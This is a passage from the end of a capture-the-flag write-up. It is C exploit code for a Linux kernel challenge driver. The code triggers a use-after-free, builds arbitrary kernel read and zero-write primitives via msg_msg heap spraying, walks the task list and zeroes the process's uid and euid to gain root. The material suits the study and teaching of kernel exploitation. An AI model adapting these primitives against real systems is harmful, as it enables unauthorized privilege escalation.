    return ioctl(fd, CMD_TOGGLE, &request);
}

// Read 32-bit primitive
unsigned int read_int(unsigned long where) {

    // Prepare structure
    struct {
        long mtype;
        char mtext[MSG_SIZE];
    } msg;
    msg.mtype = 1;
    memset(msg.mtext, 0x41, MSG_SIZE - 1);
    msg.mtext[MSG_SIZE] = 0;

    // Set first controllable pointer to <desired_address>-0x14
    unsigned long *ptr = (unsigned long *) msg.mtext;
    ptr[0] = where - UID_OFF;

    // Post message - allocate msg_msg
    int msqid = msgget(IPC_PRIVATE, 0644 | IPC_CREAT);
    msgsnd(msqid, &msg, sizeof(msg.mtext), 0);

    // Read
    dev_info(6);

    // Receive message - free msg_msg
    msgrcv(msqid, &msg, sizeof(msg.mtext), 0, IPC_NOWAIT);

    return request.info.owner_uid;
}

// Read 64-bit primitive
unsigned long read_long(unsigned long where) {

    unsigned long p1, p2;
    p1 = read_int(where);
    p2 = read_int(where + 4);
    return p1 | (p2 << 32);
}

// Write 32-bit zero primitive
int write_int_zero(unsigned long where) {

    // Check current value
    if (!read_int(where)) {
        // Already zero, nothing to do
        return 0;
    }

    // Check owner_uid constraint
    unsigned int value = read_int(where + 4);
    unsigned int curr = (unsigned int) getuid();
    if (value != curr) {
        printf("[*] Cannot write here: found value %u, current uid %u!\n", value, curr);
        return -1;
    }

    // Prepare structure
    struct {
        long mtype;
        char mtext[MSG_SIZE];
    } msg;
    msg.mtype = 1;
    memset(msg.mtext, 0x41, MSG_SIZE - 1);
    msg.mtext[MSG_SIZE] = 0;

    // Set first controllable pointer to <desired_address>-0x10
    unsigned long *ptr = (unsigned long *) msg.mtext;
    ptr[0] = where - PUBLIC_OFF;

    // Post message - allocate msg_msg
    int msqid = msgget(IPC_PRIVATE, 0644 | IPC_CREAT);
    msgsnd(msqid, &msg, sizeof(msg.mtext), 0);

    // Write
    dev_toggle(6);

    // Receive message - free msg_msg
    msgrcv(msqid, &msg, sizeof(msg.mtext), 0, IPC_NOWAIT);

    return 0;
}

int main(int argc, char **argv) {

    // Open challenge driver
    printf("[*] Opening challenge driver...\n");
    fd = open(CHALLENGE_DRIVER, O_RDWR | O_NONBLOCK);

    // Trigger integer overflow and UAF
    printf("[*] Triggering free on recipes list memory...\n");
    for (int i = 0; i < 256; i++) {
        dev_alloc("Hello, world! :)", true);
    }

    // Iterate over Kernel tasks structures to find current process' credentials
    printf("[+] current uid = %u, current eid = %u\n", getuid(), geteuid());

    printf("[*] Starting iteration on tasks list to find current process...\n");
    unsigned long cur = INIT_TASK, cred;
    unsigned int pid;
    unsigned int this_pid = getpid();
    while (2) {
        pid = read_int(cur + PID_OFF);
        if (pid == this_pid) {
            cred = read_long(cur + CRED_OFF);
            printf("[+] Found current process. Current pid = %u, cred struct = %p\n", pid, (void *) cred);
            printf("[+] cred struct uid = %u, cred struct eid = %u\n", read_int(cred + CRED_UID_OFF), read_int(cred + CRED_EUID_OFF));

            printf("[*] Overwriting euid...\n");
            if (write_int_zero(cred + CRED_EUID_OFF) != 0) {
                goto error;
            }

            printf("[*] Overwriting uid...\n");
            if (write_int_zero(cred + CRED_UID_OFF) != 0) {
                goto error;
            }
            break;
        }
        cur = read_long(cur + TASKS_OFF) - TASKS_OFF;
    }

    if (getuid() != 0 || geteuid() != 0) {
        goto error;
    }

    printf("[+] current uid = %u, current eid = %u\n", getuid(), geteuid());
    printf("[*] All done! Here is your flag:\n");
    system("cat flag.txt");
    return 0;

error:
    printf("[-] Some error occurred, exploit failed :(\n");
    return -1;

}
```

---

### Author

_Giulia Martino (@giulia)_  
_Twitter:_ https://twitter.com/giuliamartinoo
